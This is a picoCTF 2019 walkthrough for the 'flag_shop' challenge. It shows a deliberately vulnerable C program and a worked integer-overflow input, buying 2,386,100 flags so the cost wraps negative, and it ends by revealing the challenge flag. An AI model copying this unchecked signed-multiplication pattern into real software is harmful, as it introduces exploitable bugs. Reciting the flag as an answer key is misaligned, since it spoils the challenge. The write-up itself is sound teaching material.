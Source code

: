 # flag_shop
300 points

### Description
*"There's a flag shop selling stuff, can you buy a flag? Source. Connect with nc 2019shell1.picoctf.com 29250."*

### Solution
Before taking a look at the source code, let's run the netcat command to get a feel for the program:
```
$ nc 2019shell1.picoctf.com 29250
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
 
```

Okay, let's see what each one does, starting with 1:
```
1



 Balance: 1100 


Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection

```

We start with a balance of 1100, good to know, what about 2?
```
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag

```
Let's try these sequentially too, starting with 1:
```
1
These knockoff Flags cost 900 each, enter desired quantity

```

We know we can only afford 1 (you can try buying more, but it won't let you spend more than your balance):
```

The final cost is: 900

Your current balance after transaction: 200

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection

```

We are back at the beginning, let's go try to buy the second flag:
```
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1

Not enough funds for transaction
```

At this point we can guess that the flag is in "1337 Flag", but how can we get it? Let's look at that source code now:

```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){
        
        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags; // <--------------------------- INTEGER OVERFLOW VULNERABILITY HERE
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }
                                    
                    
                }
                    
                    
                    
                
            }
            else if(auction_choice == 2){
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);
                
                if(bid == 1){
                    
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                        }
                    
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}

            }
        }
        else{
            con = 1;
        }

    }
    return 0;
}
```

If you look at the line I pointed out in the code, the product of 900 and `number_flags` is saved in `total_cost`. However, signed integers in C can only be 
as large as 2,147,483,647. Any larger than that, and the left-most bit of the memory bits allocated for that integer will become a 1. 

Why is this a problem? Well, modern computers represent numbers using [two's complement](https://en.wikipedia.org/wiki/Two%27s_complement). Without going 
into too much detail, this means that the left-most bit being a 1 signifies that the number is actually *negative*. If you don't know about two's complement, 
you should become familiar with it. It's an extremely important concept related to how computers actually do mathematical operations.

So what happens if we add 1 to an variable of type `int` that holds 2,147,483,647? Well, it actually loops around to the largest (in magnitude) negative number available in C: -2,147,483,648. What if we subtract 1 from this new number? You guessed it, it would become 2,147,483,647.

So how does this help in this problem? Well if we can overflow `total_cost` and make it negative, then we would actually be *adding* to our balance by buying these flags. This technique is known as an [integer overflow](https://en.wikipedia.org/wiki/Integer_overflow).

We need `total_cost` to be greater than 2,147,483,647 so it will become negative. This means buying a number of flags greater than `2,147,483,647 / 900 = 2386092.94111`. To make sure this is large enough, I just rounded the number up to 2,386,100.
```
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
2386100

The final cost is: -2147477296

Your current balance after transaction: 2147478396
```

You should be able to buy the second flag now.

<details>
  <summary>Flag:</summary>
  picoCTF{m0n3y_bag5_783740a8}
</details>

[Next Problem](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/general_skills/%2316%20-%20mus1c.md)

[Return to General Skills](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/general_skills/%230%20-%20General%20Skills%20Homepage.md)

[Return to Homepage](https://github.com/sdvickers98/picoCTF-2019-Walkthrough)
